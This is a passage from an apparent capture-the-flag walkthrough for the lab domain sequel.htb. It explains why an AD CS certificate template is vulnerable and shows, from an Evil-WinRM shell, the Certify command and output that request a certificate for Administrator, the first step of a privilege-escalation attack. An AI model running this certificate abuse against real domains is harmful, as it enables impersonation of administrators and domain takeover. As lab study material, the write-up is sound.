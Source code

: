 ```powershell
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519



Certify completed in 00:00:10.0538947
*Evil-WinRM* PS C:\programdata>
```

We can see a couple of problems resulting in why is this certificate template vulnerable. Let's dig into it a bit.

There are 2 main problems:
1. `msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT` - This ensures that the user that requests the certificate based on this template can supply name of the object the certificate is for. This means that the user can request a certificate for another user e.g. administrator (we'll do this later)
2. `Enrollment Rights: sequel\Domain Users` - This means that any domain user can request a certificate based on this template.

### Abusing AD CS certificate template with Certify & Rubeus

What we can do is request a certificate for the `Administrator` user which we can later use the get a TGT and use it to log into the box. Since we have everything we need. We can use Certify and Rubeus, to perform the attack. We can do it in 5 steps.

#### Step 1 - Request the Administrator certificate

```powershell
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

We can see that we successfully obtained the certificate:

```powershell
*Evil-WinRM* PS C:\programdata> .\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
```